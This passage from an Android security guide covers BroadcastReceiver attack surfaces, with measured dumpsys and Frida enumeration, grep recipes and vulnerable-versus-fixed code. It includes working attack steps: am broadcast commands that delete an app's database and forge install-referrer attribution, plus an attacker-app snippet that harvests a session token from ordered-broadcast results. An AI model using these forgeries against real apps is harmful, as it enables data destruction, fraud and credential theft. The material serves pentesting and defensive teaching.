| `Filter #N: BroadcastFilter{<hash>}` | One `IntentFilter` registered by that receiver. One receiver can register several. |
| `Action:` / `Category:` / `Scheme:` / `Type:` | The filter's match criteria — the same fields as a manifest `<intent-filter>`. |
| `requiredPermission=` | The `broadcastPermission` argument. **Its absence means any app can send to this receiver.** |

Note what is **absent**: the receiver's Java class name, and any export flag. Neither is
knowable from this dump. AMS holds an `InnerReceiver` Binder proxy, not your class (section
4.4), and below API 33 there is no export concept for runtime receivers at all.

Now the tool:

```bash
# host
python3 scripts/receiver-surface.py --brief
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
=== DEVICE ====================================================================
  model=M2101K6P  Android 11  API 30
  API < 33: runtime-registered receivers have NO export flag.
  Every registration below is reachable by any sender unless a
  requiredPermission is shown. RECEIVER_EXPORTED /
  RECEIVER_NOT_EXPORTED do not exist on this release; the
  AndroidX shim permission is how NOT_EXPORTED is emulated.

=== SUMMARY ===================================================================
  ReceiverList registrations                      : 1281
  IntentFilters across them                       : 1438
  action strings (with duplicates)                : 2868
  distinct action strings                         : 800
  filters WITH a sender permission                : 211
    of which AndroidX NOT_EXPORTED backport       : 36
  filters with NO sender permission               : 1227
  registrations owned by third-party apps         : 472
    third-party AND at least one unguarded filter : 364
```

> **🔬 Under the Hood**
> A snapshot taken a few minutes earlier on the same idle device read **1,151**
> registrations, **1,306** filters and **2,677** action strings. The surface is *live*: it
> grows and shrinks as processes start and die. Any single number you quote is a snapshot,
> and any receiver you fail to find may simply not have been registered at the moment you
> looked. Re-run while exercising the target.

### 7.3 Proving the gap: static view versus runtime view

The claim "a static tool cannot see these" is worth demonstrating rather than asserting.
`cmd package query-receivers` queries PackageManagerService — the *manifest* resolver — so
comparing it against the AMS table isolates exactly the invisible portion.

```bash
# host — for each action, ask the static resolver and count the runtime registrations
for a in android.media.VOLUME_CHANGED_ACTION android.intent.action.USER_UNLOCKED \
         android.net.wifi.supplicant.STATE_CHANGE; do
  echo "=== $a"
  echo -n "  static  : "; adb shell "cmd package query-receivers --brief -a $a" | head -1
  echo -n "  runtime : "
  adb shell "dumpsys activity broadcasts" \
    | sed -n '/Registered Receivers:/,/Receiver Resolver Table:/p' \
    | grep -c "Action: \"$a\""
done
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
=== android.media.VOLUME_CHANGED_ACTION
  static  : No receivers found
  runtime : 6
=== android.intent.action.USER_UNLOCKED
  static  : No receivers found
  runtime : 29
=== android.net.wifi.supplicant.STATE_CHANGE
  static  : No receivers found
  runtime : 4
```

Three actions. The static resolver reports zero listeners for all three. Thirty-nine
receivers are actually listening.

At scale, across every action registered by a third-party-uid process on the device:

```bash
# host — takes a few minutes: one PackageManager query per distinct action
python3 scripts/receiver-surface.py --third-party --runtime-only --brief
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
  ACTION                                                       runtime / manifest
  ------------------------------------------------------------------------------
  ACTION_S11Y_EVENT_BUS                                             1 / 0   <-- RUNTIME-ONLY
  AUTO_START_MNG_INFO_CLICKED                                       1 / 0   <-- RUNTIME-ONLY
  analytics.deviceid                                                1 / 0   <-- RUNTIME-ONLY
  android.accounts.action.VISIBLE_ACCOUNTS_CHANGED                  9 / 0   <-- RUNTIME-ONLY
  android.app.action.ENTER_CAR_MODE                                 2 / 0   <-- RUNTIME-ONLY
  android.bluetooth.adapter.action.BLE_STATE_CHANGED                3 / 0   <-- RUNTIME-ONLY
  ...

  299 of 431 distinct actions have live runtime registrations and NO
  manifest-declared receiver anywhere on this device.
```

**Two hundred and ninety-nine of four hundred and thirty-one.** Sixty-nine per cent of the
third-party broadcast surface on a stock, unmodified Android 11 device is invisible to
every tool that works from an APK.

> **🔍 Pentester's Note**
> Read this correctly before you quote it. A manifest count of zero does not mean the
> action is secret or undocumented; several of those are perfectly public Android actions.
> It means that *on this device, at this moment*, the only listeners are runtime
> registrations — so a static audit of every APK on the device would have concluded that
> nothing listens for them. The number is a statement about tooling coverage, not about
> the apps' intent.

### 7.4 Which actions can you actually forge?

```bash
# host — build the platform's protected list, with no side effects
bash scripts/protected-broadcast-map.sh
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
=== static extraction (no broadcasts sent) ===================================
  aapt2: /c/Program Files (x86)/apktool/Resources/aapt2

  framework-res.apk (package "android")                        532 protected action(s)

  total distinct protected actions found: 532
```

```bash
# host — classify the actions your target listens for
bash scripts/protected-broadcast-map.sh --check actions.txt
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
  ACTION                                                         STATIC     DYNAMIC
  ----------------------------------------------------------------------------------
  android.intent.action.BOOT_COMPLETED                           PROTECTED  -
  com.android.vending.INSTALL_REFERRER                           forgeable  -
  com.google.android.c2dm.intent.RECEIVE                         forgeable  -
  android.intent.action.LOCALE_CHANGED                           PROTECTED  -
  android.appwidget.action.APPWIDGET_UPDATE                      forgeable  -
  com.example.REFRESH_CONFIG                                     forgeable  -
```

Note the fourth column deliberately reads `-`: nothing was sent. `--verify --i-will-send`
switches to the authoritative dynamic probe, and the script refuses to do it otherwise,
because verification works by *actually dispatching* every action that turns out not to be
protected.

The `APPWIDGET_UPDATE` row is the case that justifies the dynamic mode. Statically it is
not in the platform's protected list; dynamically, shell was refused with a **different**
error message raised by `AppWidgetService` rather than by AMS. A static list under-reports.

### 7.5 Frida: the class names, the send side, and the export state

`dumpsys` cannot give you three things: the receiver's class, what the app *sends*, and the
export flags. A hook gives you all three.

```bash
# host — spawn, so registrations made in Application.onCreate are caught
frida -U -f com.example.target -l scripts/hook-broadcast.js
# in the REPL:
#   bc.watch()
```

```
# measured — Redmi M2101K6P, Android 11 / API 30, against com.miui.calculator
=== hook-broadcast ===
[+] package = com.miui.calculator   API = 30
[!] API 30 < 33: RECEIVER_EXPORTED / RECEIVER_NOT_EXPORTED do not exist here.
    Every runtime registration without a broadcastPermission is reachable by any app.

=== registerReceiver -- the surface no manifest contains ===============
[*] hooked 8 registerReceiver overload(s).

=== onReceive -- every delivery, from one dispatcher choke point =======
[*] hooked 3 delivery path(s).

=== sendBroadcast* -- what this app puts on the bus ====================
[*] hooked 41 send overload(s).

[registerReceiver] ContextWrapper(2 args)
    class      : com.miui.calculator.CalculatorApplication$1
    export     : EXPORTED (pre-33 default, 2-arg)  <-- ANY app can send to this receiver
    action   : android.intent.action.LOCALE_CHANGED
    priority : 0
```

Read what that gives you that nothing else does:

- **`com.miui.calculator.CalculatorApplication$1`** — an anonymous inner class inside the
  `Application`. The manifest does not mention it. `dumpsys` cannot name it. A sweep for
  classes extending `BroadcastReceiver` by name would miss it.
- **`EXPORTED (pre-33 default, 2-arg)`** — the export state, derived from *which overload
  was called*, which is the only way to know it on this API level.
- **`priority : 0`** — no interception intent.

And then the honest conclusion for this specific receiver: `LOCALE_CHANGED` is a protected
broadcast (measured), so although the receiver is unguarded and reachable in principle, **no
ordinary app can send it. This is not a finding.** That is the discipline the chapter is
arguing for, applied to a real app.

The delivery side, with the sender probe armed:

```
# measured — Redmi M2101K6P, Android 11 / API 30
[deliver] context-registered receiver, from the binder thread
    [senderProbe] Binder.getCallingUid() = 1000   <-- system_server, NOT the app that sent it
                  Binder.getCallingPid() = 0
                  Process.myUid()        = 10141   (this app)
    ordered=true  sticky=false  resultCode=0  resultData=null  user=0
    <-- ORDERED: this receiver may call abortBroadcast() and stop the chain,
        or setResultData() and change what the next receiver sees.
    action   : android.intent.action.LOCALE_CHANGED
               <-- IMPLICIT: every matching receiver on the device is a candidate recipient
    flags    : 0x400010  [EXCLUDE_STOPPED_PACKAGES, FROM_BACKGROUND]
```

`ordered=true` confirms in the receiving process what section 3.6 claimed about
`am broadcast`.

### 7.6 Sending: `am broadcast`, every argument you need

```bash
# host — implicit, exactly as another app would send it
adb shell "am broadcast -a com.example.vault.ACTION_SYNC_CONFIG"

# host — restricted to one package (also escapes the API 26 implicit-broadcast limits)
adb shell "am broadcast -a com.example.vault.ACTION_SYNC_CONFIG -p com.example.vault"

# host — EXPLICIT: bypasses the intent-filter entirely
adb shell "am broadcast -n com.example.vault/.ConfigSyncReceiver --ez force true"

# host — every extra type am supports
adb shell "am broadcast -a X --es key str --ei key 42 --el key 42000000000 \
    --ez key true --ef key 1.5 --esa key a,b,c --eia key 1,2,3 --eu key content://x"

# host — a receiver permission on the send
adb shell "am broadcast -a X --receiver-permission android.permission.INTERNET"

# host — flags: 0x20 = FLAG_INCLUDE_STOPPED_PACKAGES (wake a dormant app)
adb shell "am broadcast -a X -p com.example.vault -f 0x20"

# host — as a different user
adb shell "am broadcast -a X --user 0"
```

| Argument | What it does | Gotcha |
|---|---|---|
| `-a` | action | — |
| `-n` | explicit component | **Bypasses the filter.** `getAction()` will be null unless you also pass `-a`. |
| `-p` | `setPackage()` | Turns an implicit broadcast into a targeted one. Escapes API 26 limits. |
| `-f` | raw flags integer | `0x20` = include stopped packages; `0x08000000` = no-abort. |
| `--receiver-permission` | the send-side permission | Accepted on API 30 (measured). |
| `--user` | target user | `-1` is `USER_ALL`, and requires a permission shell may not have. |

> **⚠️ Warning**
> `am broadcast --help` is not a thing. Passing it throws
> `IllegalArgumentException: Unknown option: --help` from `Intent.parseCommandArgs` — the
> options are parsed by the generic Intent argument parser, which has no help text.
> Measured. Use `adb shell am help` and read the `am broadcast` block, or read
> `ActivityManagerShellCommand.java`.

> **⚠️ Warning**
> **`am broadcast` sends an ORDERED broadcast.** Measured: `ordered=true` in the historical
> record for a plain `am broadcast -a X`, and confirmed inside a receiving app with Frida.
> Two consequences. First, you get result-channel leaks for free. Second, a bug you can
> only reproduce this way may be unreachable to an app calling `sendBroadcast()`. Reproduce
> from an app before you report.

### 7.7 Reading the history

```bash
# host
python3 scripts/receiver-surface.py --history --with-extras --limit 20
```

The parsed form of what section 3.9 showed raw. Each record gives the sender uid, the
ordered/sticky flags, the result code, the number of deliveries and the extras, with
credential-shaped keys flagged.

```bash
# host — the raw form, if you prefer it
adb shell "dumpsys activity broadcasts" | sed -n '/Historical broadcasts summary/,$p' | head -40
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
#3: act=android.telephony.action.SHOW_VOICEMAIL_NOTIFICATION flg=0x10000010 pkg=com.google.android.dialer (has extras)
  +350ms dispatch +15ms finish
  enq=2026-08-11 20:10:03.947 disp=2026-08-11 20:10:04.297 fin=2026-08-11 20:10:04.312
  extras: Bundle[{STRIPPED=1}]
#8: act=android.intent.action.SCREEN_OFF flg=0x50200010
  0 dispatch +284ms finish
```

The `Bundle[{STRIPPED=1}]` there is worth a note, because it looks like redaction and is
not something to rely on. Other records in the same dump printed real extras verbatim —
`Bundle[{android.location.extra.PROVIDER_ENABLED=true, android.location.extra.PROVIDER_NAME=network}]`
— and a broadcast sent deliberately with `--es token SUPERSECRET123` was recorded in full.
Whatever produced `STRIPPED=1` on that particular record, **the history is not a redacted
channel**, and any assumption that it is will cost you a finding.

### 7.8 Other tools, and what each is actually good for

| Tool | Good for | Blind to |
|---|---|---|
| `dumpsys activity broadcasts` | The runtime table, the history, sender uids, extras | Class names, export flags below API 33, `LocalBroadcastManager` |
| `cmd package query-receivers` | The manifest-declared half, with priorities and match values | Everything registered at runtime |
| `dumpsys package <pkg>` | The declared surface as PackageManager resolved it, obfuscation-proof | Same |
| **Frida** | Class names, the send side, export flags, abort/result calls, `LocalBroadcastManager` | Anything in a process you are not attached to |
| **drozer** | `app.broadcast.info`, `app.broadcast.send` — enumeration and firing **from an app context**, which is a far better reachability oracle than `adb shell` | Runtime registrations; nested `Parcelable` extras |
| **Objection** | Quick `android hooking` on `onReceive` | The registration side |
| **MobSF** | The manifest table, fast triage | The entire runtime surface |
| **Logcat** | ANR traces naming a receiver; `BroadcastQueue` warnings about slow receivers | — |

### 7.9 What was measured, and what was not

Stated plainly, because the difference matters:

| Claim | Status |
|---|---|
| Protected-broadcast refusal message and the exact action set on this device | **Measured** |
| Root sends a protected broadcast where shell cannot | **Measured** |
| 532 distinct `<protected-broadcast>` in `framework-res.apk` | **Measured** |
| `dumpsys activity broadcasts` records the sender uid and extras in cleartext | **Measured** |
| `Binder.getCallingUid()` is 1000 inside a delivery | **Measured**, with Frida, inside a real app |
| `am broadcast` sends an ordered broadcast | **Measured**, twice, from both ends |
| Foreground / background queue timeouts of 10 s / 60 s | **Measured** |
| 299 of 431 third-party actions are runtime-only | **Measured** |
| The AndroidX `NOT_EXPORTED` backport permission exists in the wild | **Measured**, 119 filters across 3 packages |
| Receiver class names are absent from `dumpsys` and recoverable only by hooking | **Measured** |
| Everything about API 33 `RECEIVER_EXPORTED` / `RECEIVER_NOT_EXPORTED` behaviour | **Documented, not measured.** The device is API 30 and the flags do not exist on it. |
| The API 26 implicit-broadcast exemption list | **Documented.** Individual entries were not exhaustively tested. |
| Android 14's rewritten per-process broadcast queues | **Documented.** Out of reach of this device. |
| Anything requiring a purpose-built victim APK | **Not executed.** The device refuses `adb install` with `INSTALL_FAILED_USER_RESTRICTED`, an OEM restriction. The example apps ship as sources with a build script. |

---

## 8. Static Analysis

> **This section deliberately does not audit a manifest.**
> [32-Manifest](../32-Manifest/README.md) owns that, including the export-default matrix by
> `targetSdk`, `protectionLevel` resolution and severity rating, and ships
> `32-Manifest/scripts/manifest-audit.py` to automate it. Run that first. What follows is
> the part it does not cover: finding the **runtime** registration sites, the **send**
> sites, and the ordered-broadcast primitives, in code.

### 8.1 Extract

```bash
# host
apktool d -f target.apk -o work/        # smali + decoded manifest
jadx -d out target.apk                  # java-ish sources
aapt2 dump xmltree --file AndroidManifest.xml target.apk > manifest.txt
```

Then hand the manifest to chapter 32:

```bash
# host
python3 ../32-Manifest/scripts/manifest-audit.py work/AndroidManifest.xml
```

### 8.2 Find the runtime registrations — the ones the manifest omits

```bash
# host — Java sources: every registration site
grep -rn "registerReceiver" out/sources/

# host — the DANGEROUS shape: two arguments, so no permission and no export flag
grep -rnE "registerReceiver\s*\([^,]+,\s*[^,)]+\)" out/sources/

# host — registrations that DO carry a permission (these are the safe ones)
grep -rn "registerReceiver" out/sources/ | grep -i "permission"

# host — the API 33 flags, if the app targets 33+
grep -rn "RECEIVER_NOT_EXPORTED\|RECEIVER_EXPORTED" out/sources/

# host — the AndroidX backport, which means the developer did the right thing
grep -rn "ContextCompat.registerReceiver\|DYNAMIC_RECEIVER_NOT_EXPORTED" out/sources/
```

```bash
# host — smali, which survives obfuscation
grep -rn "registerReceiver(Landroid/content/BroadcastReceiver;Landroid/content/IntentFilter;)" work/smali*/

# host — every action string handed to an IntentFilter constructor
grep -rn -B2 "IntentFilter;-><init>(Ljava/lang/String;)V" work/smali*/ | grep const-string
```

That last one is the highest-yield command in this section. Action strings cannot be
obfuscated, so it recovers the runtime action surface from a fully obfuscated APK.

### 8.3 Find the interception primitives

```bash
# host — priority set at runtime: invisible in the manifest
grep -rn "setPriority" out/sources/
grep -rn "IntentFilter;->setPriority(I)V" work/smali*/

# host — the abort
grep -rn "abortBroadcast" out/sources/
grep -rn "BroadcastReceiver;->abortBroadcast()V" work/smali*/

# host — result setting: the leak channel
grep -rn "setResultData\|setResultExtras\|setResultCode" out/sources/

# host — result reading: the harvest
grep -rn "getResultData\|getResultExtras" out/sources/
```

A high `android:priority` in a manifest is easy to spot. `filter.setPriority(2147483647)`
in code is not, and it is the same primitive.

### 8.4 Find the send sites — the leak surface

```bash
# host — every outbound broadcast
grep -rn "sendBroadcast\|sendOrderedBroadcast\|sendStickyBroadcast" out/sources/

# host — sends that are NOT constrained. These are the leak candidates.
grep -rn "sendBroadcast(" out/sources/ | grep -v "setPackage\|LocalBroadcast" 

# host — deprecated sticky sends, which are a finding in themselves
grep -rn "sendStickyBroadcast\|sendStickyOrderedBroadcast\|removeStickyBroadcast" out/sources/
grep -rn "BROADCAST_STICKY" work/AndroidManifest.xml

# host — the good pattern, so you can tell the app apart from one that never tried
grep -rn "LocalBroadcastManager" out/sources/
```

For each unconstrained send, the questions are: what is in the extras, and does anything in
there matter? A `sendBroadcast(new Intent("X").putExtra("token", t))` with no `setPackage`
and no `receiverPermission` is a credential handed to every app on the device.

### 8.5 Find the receivers that do not check their input

```bash
# host — receiver classes that never call getAction()
for f in $(grep -rl "extends BroadcastReceiver" out/sources/); do
    grep -q "getAction" "$f" || echo "NO ACTION CHECK: $f"
done
```

Every hit is a receiver that will run its logic for an explicit, actionless Intent. If the
receiver is exported, that is the filter-bypass precondition from section 5.1.

### 8.6 Find dangerous sinks reached from a broadcast extra

```bash
# host — extras reaching a URL
grep -rn -A5 "getStringExtra" out/sources/ | grep -iE "url|uri|endpoint|host|server"

# host — extras reaching a file path
grep -rn -A5 "getStringExtra" out/sources/ | grep -iE "File\(|openFileOutput|delete\("

# host — extras reaching reflection or class loading
grep -rn -A5 "getStringExtra" out/sources/ | grep -iE "Class.forName|loadClass|newInstance"

# host — extras reaching a nested Intent (see 26-Intent for the redirection class)
grep -rn "getParcelableExtra" out/sources/ | grep -i "intent"
```

The last one crosses into [26-Intent](../26-Intent/README.md)'s territory: an Intent taken
out of a broadcast extra and started is intent redirection, with a broadcast as the entry
point instead of an Activity. Chapter 26 owns the primitive; this chapter owns the door it
came through.

### 8.7 Gradle and build-level signals

```bash
# host
grep -rn "targetSdk\|compileSdk" build.gradle app/build.gradle 2>/dev/null
```

`targetSdkVersion` decides whether the API 33 flag requirement applies at all, and it is
the first thing to establish before writing anything about export state.

---

## 9. Examples

Five graded examples, simple to enterprise. All of them are real code. The full files live
in [`examples/`](examples/README.md).

### 9.1 Simple — the smallest correct receiver, and the smallest wrong one

**Wrong:**

```java
// Java — the minimum that is a bug
public class PingReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context c, Intent i) {
        c.deleteDatabase(i.getStringExtra("db"));    // attacker names the database
    }
}
```

```xml
<receiver android:name=".PingReceiver" android:exported="true">
    <intent-filter><action android:name="com.example.PING" /></intent-filter>
</receiver>
```

Three lines of code, three missing controls: no action check, no permission, and an
attacker-supplied string reaching a destructive sink. Exploitable in one command:

```bash
# host
adb shell "am broadcast -a com.example.PING --es db users.db -p com.example"
```

**Right:**

```java
// Java — the minimum that is correct
public class PingReceiver extends BroadcastReceiver {
    private static final String ACTION = "com.example.PING";

    @Override
    public void onReceive(Context c, Intent i) {
        if (!ACTION.equals(i.getAction())) return;      // 1. always
        // 2. nothing from the Intent reaches a sink
        c.getSharedPreferences("state", Context.MODE_PRIVATE)
         .edit().putLong("last_ping", System.currentTimeMillis()).apply();
    }
}
```

```xml
<receiver android:name=".PingReceiver" android:exported="false" />
```

`exported="false"` is the whole fix in this case. The receiver never needed to be reachable
from outside; it was exported because the developer added a filter, and a filter used to
flip the default.

### 9.2 Intermediate — the boot receiver that is not just a boot receiver

This is the chapter's central bug, and the full annotated pair is in
[`examples/ConfigSyncReceiver-vulnerable.java`](examples/ConfigSyncReceiver-vulnerable.java)
and
[`examples/ConfigSyncReceiver-fixed.java`](examples/ConfigSyncReceiver-fixed.java).

The essential diff:

```diff
- <receiver android:name=".ConfigSyncReceiver" android:exported="true">
-     <intent-filter android:priority="500">
-         <action android:name="android.intent.action.BOOT_COMPLETED" />
-         <action android:name="com.example.vault.ACTION_SYNC_CONFIG" />
-     </intent-filter>
- </receiver>
+ <!-- one receiver, one action, one trust level -->
+ <receiver android:name=".BootReceiver" android:exported="true">
+     <intent-filter>
+         <action android:name="android.intent.action.BOOT_COMPLETED" />
+     </intent-filter>
+ </receiver>
+ <!-- the sensitive path is registered at runtime, NOT_EXPORTED, and is not here -->
```

```diff
  public void onReceive(Context context, Intent intent) {
+     if (!Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) return;
-     String url = intent.getStringExtra("config_url");
-     if (url != null) prefs.edit().putString("config_url", url).apply();
+     // no URL comes from the message; the endpoint is derived from an allowlisted key
```

### 9.3 Advanced — the ordered-broadcast result leak, and how to harvest it

**Vulnerable receiver:**

```java
// Java — inside a receiver the developer believes only their own app talks to
@Override
public void onReceive(Context c, Intent i) {
    String token = prefs.getString("session_token", null);
    if (token != null) {
        setResultCode(1);
        setResultData(token);      // "so our other receiver can read it"
    }
}
```

**The harvest, from an app with no permissions at all:**

```java
// Java — attacker app
Intent i = new Intent("com.example.vault.ACTION_SYNC_CONFIG");
i.setPackage("com.example.vault");
sendOrderedBroadcast(i, null,
    new BroadcastReceiver() {              // runs in OUR process, last in the chain
        @Override public void onReceive(Context c, Intent x) {
            Log.i("attacker", "code=" + getResultCode());
            Log.i("attacker", "data=" + getResultData());     // the session token
            Bundle e = getResultExtras(false);
            if (e != null) for (String k : e.keySet()) Log.i("attacker", k + "=" + e.get(k));
        }
    },
    null, Activity.RESULT_CANCELED, null, null);
```

**And from a shell, because `am broadcast` is already ordered:**

```bash
# host
adb shell "am broadcast -a com.example.vault.ACTION_SYNC_CONFIG -p com.example.vault"
```

```
# the result code of the ordered chain comes back on stdout
Broadcast completed: result=1
```

The result *code* is visible directly. The result *data* is not printed by `am`, which is
why the app-side harvest above is the real proof — and why "I saw result=1" is not enough
for a report.

**The fix:**

```java
// Java
@Override
public void onReceive(Context c, Intent i) {
    // A result is a STATUS, never a secret. The sender is untrusted by definition.
    setResultCode(Activity.RESULT_OK);
}
```

### 9.4 Real application — an SDK-contributed receiver nobody reviewed

The pattern that produces most real-world findings in large apps: the receiver is not in
code the app's developers wrote.

```xml
<!-- merged AndroidManifest.xml, after the Gradle manifest merger has run -->
<receiver
    android:name="com.thirdparty.attribution.ReferrerReceiver"
    android:exported="true">
    <intent-filter>
        <action android:name="com.android.vending.INSTALL_REFERRER" />
    </intent-filter>
</receiver>
```

Nobody on the app team wrote that, reviewed it, or knows it is there. It arrived through a
transitive Gradle dependency and the manifest merger placed it in the shipped manifest.

Why it matters here: `com.android.vending.INSTALL_REFERRER` is **measured as forgeable** on
the device — `Broadcast completed: result=0`. Anything the SDK does with the referrer
string is therefore driven by any app on the device:

```bash
# host — forge an install attribution
adb shell "am broadcast -a com.android.vending.INSTALL_REFERRER \
    -p com.example.target \
    --es referrer 'utm_source=attacker&utm_campaign=x&aff_id=999'"
```

The impact ranges from analytics pollution (low) to whatever the SDK does with the string
— and historically that has included passing it to a server, storing it, and in bad cases
treating parts of it as configuration.

**How to find which dependency contributed it:**

```bash
# host — the merger writes a report naming the source of every merged element
cat app/build/outputs/logs/manifest-merger-release-report.txt | grep -B5 -A5 ReferrerReceiver
```

**The fix**, when you do not control the SDK:

```xml
<!-- app/src/main/AndroidManifest.xml -->
<receiver
    android:name="com.thirdparty.attribution.ReferrerReceiver"
    android:enabled="false"
    tools:replace="android:enabled"
    tools:node="merge" />
```

or, where the feature is genuinely wanted, accept the exposure knowingly and make sure the
value is treated as untrusted input everywhere downstream.

### 9.5 Enterprise — a broadcast-based internal RPC, done wrong then right

Large apps sometimes build an internal message bus out of ordered broadcasts. It works, and
it is a liability, because every one of this chapter's six attack shapes applies at once.

**Wrong:**

```java
// Java — an in-app event bus over ordered broadcasts
public final class EventBus {
    public static void publish(Context c, String event, Bundle payload) {
        Intent i = new Intent("com.enterprise.app.EVENT");
        i.putExtra("event", event);
        i.putExtras(payload);                 // may contain anything
        c.sendOrderedBroadcast(i, null);      // no receiverPermission, no setPackage
    }

    public static void subscribe(Context c, BroadcastReceiver r, int priority) {
        IntentFilter f = new IntentFilter("com.enterprise.app.EVENT");
        f.setPriority(priority);
        c.registerReceiver(r, f);             // two-arg: exported below API 33
    }
}
```

Everything is wrong at once. Every event and payload goes to every app on the device. Any
app can publish a forged event. Any app can register at a higher priority and abort, so any
subscriber can be silenced. Any app can rewrite the result mid-chain. And none of it
appears in the manifest, so a manifest audit reports the app as having no broadcast surface
at all.

**Right — same API, no exposure:**

```java
// Java
public final class EventBus {
    private static final String ACTION = "com.enterprise.app.EVENT";
    private static final String PERM = "com.enterprise.app.permission.EVENT_BUS"; // signature

    public static void publish(Context c, String event, Bundle payload) {
        Intent i = new Intent(ACTION);
        i.setPackage(c.getPackageName());                       // never leaves the app
        i.addFlags(0x08000000);                                 // FLAG_RECEIVER_NO_ABORT
        i.putExtra("event", event);
        i.putExtras(payload);
        c.sendBroadcast(i, PERM);                               // unordered + guarded
    }

    public static void subscribe(Context c, BroadcastReceiver r) {
        IntentFilter f = new IntentFilter(ACTION);              // no priority games
        if (Build.VERSION.SDK_INT >= 33) {
            c.registerReceiver(r, f, 0x4 /* RECEIVER_NOT_EXPORTED */);
        } else {
            c.registerReceiver(r, f, PERM, null);
        }
    }
}
```

**Better still — do not use broadcasts for this at all.** An in-process event bus does not
need a system service in the middle. `LocalBroadcastManager` (deprecated but functional),
a `SharedFlow`, a `LiveData`, or an ordinary listener registry all keep the traffic inside
the process, where no other app can see or forge it, and where it does not appear in
`dumpsys activity broadcasts` — which, as section 3.9 measured, records extras in cleartext.

---

## 10. Common Interview Questions

### Beginner

**Q. What is a BroadcastReceiver?**
A component that receives `Intent`s broadcast to many recipients rather than sent to one.
It has a single method, `onReceive(Context, Intent)`, which runs on the main thread and is
expected to return quickly. The object has no lifetime beyond that call.

**Q. What is the difference between a broadcast and an ordinary Intent?**
The Intent is the *message*; the broadcast is a *delivery mode*. The same `Intent` object
sent with `startActivity()` goes to exactly one component; sent with `sendBroadcast()` it
goes to every component whose filter matches. See
[26-Intent](../26-Intent/README.md) for the message, this chapter for the delivery.

**Q. Two ways to register a receiver?**
`<receiver>` in `AndroidManifest.xml` (static — can start a process that is not running,
and is visible to every static tool), or `Context.registerReceiver()` at runtime (dynamic —
only lives while the process does, and appears in no manifest).

**Q. Why is `onReceive` limited to a few seconds?**
It runs on the main thread and the platform enforces a deadline — measured at 10 s on the
foreground queue and 60 s on the background queue on Android 11. Exceeding it produces an
ANR. Use `goAsync()` to move off the main thread, or schedule real work with WorkManager.

### Intermediate

**Q. What is a protected broadcast, and how do you find out which actions are protected on
a given device?**
An action declared `<protected-broadcast>` by a system package. AMS refuses to dispatch it
for a non-platform caller, throwing a `SecurityException` before any receiver is consulted.
The set is device-specific — OEMs add their own — so read it from the device: pull
`/system/framework/framework-res.apk` and dump its manifest for the static list (532
distinct actions on the measured device), or probe empirically with `am broadcast` and read
the error. The empirical answer is authoritative because it is the enforcement path itself.

**Q. What does an ordered broadcast give you that an unordered one does not?**
Delivery one receiver at a time in priority order, the ability to abort the chain, and a
result (code, data, extras) that flows forward and finally reaches the *sender*. All three
are security-relevant: abort is interception, and the result is an exfiltration channel.

**Q. Why were sticky broadcasts deprecated?**
Because they cannot be protected. AMS retains the value and replays it to anyone who
registers a matching filter later; there is no sender at replay time, so a
`receiverPermission` cannot be enforced and `setPackage()` cannot constrain it. Any secret
in a sticky broadcast is public until reboot.

**Q. What changed at API 26?**
Manifest-declared receivers stopped getting most *implicit* broadcasts, and background
execution limits restricted what a receiver could do afterwards. Explicit broadcasts —
`setPackage()` or `setComponent()` — are exempt, which is the escape both developers and
attackers use.

### Senior

**Q. Inside `onReceive`, how do you determine who sent the broadcast?**
You cannot. Every broadcast is re-dispatched by `ActivityManagerService`, so the Binder
peer at delivery time is `system_server`. Measured on Android 11 inside a real app:
`Binder.getCallingUid()` returned 1000 while `Process.myUid()` returned 10141. The sender
is recorded in exactly one place — the `caller=` field of the `BroadcastRecord` in
`dumpsys activity broadcasts` — and reading that needs shell, root, or the `DUMP`
permission. Design accordingly: if you need to know the sender, do not use a broadcast.

**Q. Distinguish `receiverPermission` from `android:permission` on a receiver.**
`receiverPermission`, the second argument to `sendBroadcast`, is set by the **sender** and
checked against every candidate **receiver** — it prevents eavesdropping.
`android:permission` (or the `broadcastPermission` argument to `registerReceiver`) is set
by the **receiver** and checked against the **sender** — it prevents forgery. They are
checked in the same method, `BroadcastQueue.deliverToRegisteredReceiverLocked()`, against
opposite parties. You usually need both, and the `protectionLevel` must be `signature` for
either to mean anything between apps you do not both control.

**Q. An app has `targetSdk 30` and calls `registerReceiver(r, filter)` on an Android 14
device. What is the export state?**
Exported. The API 33 flag requirement is `targetSdk`-gated, not device-gated. The app gets
the old behaviour, and the receiver is reachable by any app. This is why you check
`targetSdkVersion` before writing anything about export state.

**Q. How do you enumerate every receiver on a device, including the runtime ones?**
`dumpsys activity broadcasts` is the only reader of AMS's registration table. Parse the
`Registered Receivers:` block for `ReceiverList` / `BroadcastFilter` records and their
`requiredPermission`. Cross-reference against `cmd package query-receivers` to isolate the
runtime-only portion — measured at 299 of 431 distinct third-party actions on a stock
Android 11 device. The dump does *not* give you class names or export flags; for those you
hook `registerReceiver`.

### Staff Engineer

**Q. You are asked to review a broadcast-based internal event bus in a 2-million-line app.
What do you check, in what order?**
1. Does any `sendBroadcast` lack both `setPackage()` and a `receiverPermission`? Those are
   leaks; enumerate what is in the extras.
2. Does any `registerReceiver` use the two-argument overload without a permission? Those
   are forgeable entry points below API 33 and for any `targetSdk < 33` app.
3. Is the bus **ordered**? If so, does the sender set `FLAG_RECEIVER_NO_ABORT`, and does
   any receiver put anything sensitive in `setResultData`?
4. What is the `protectionLevel` of every permission involved? A `normal` one is decoration.
5. Does every `onReceive` check `getAction()` as its first statement?
6. Could this be an in-process bus instead? If yes, that is the recommendation, because it
   removes the entire class rather than mitigating it.

**Q. `dumpsys activity broadcasts` shows a third-party app registered for an action with no
`requiredPermission`. Is that a finding?**
Not yet, and stating it as one is the most common error in this area. Three things must
also be true: the action must not be a protected broadcast on that device; the receiver
must do something with observable consequence; and you must reach it from an
**unprivileged app**, not from `adb shell` at uid 2000. A real measured example: a stock
calculator app registers for `LOCALE_CHANGED` with no permission — genuinely unguarded, and
genuinely not exploitable, because `LOCALE_CHANGED` is protected.

**Q. How would you build a detection for broadcast-based command and control between two
cooperating apps?**
Not statically — the actions are runtime-registered and appear in no manifest. Sample
`dumpsys activity broadcasts` periodically, diff the registration table, and look for
(a) custom action strings shared by exactly two third-party uids, (b) traffic on those
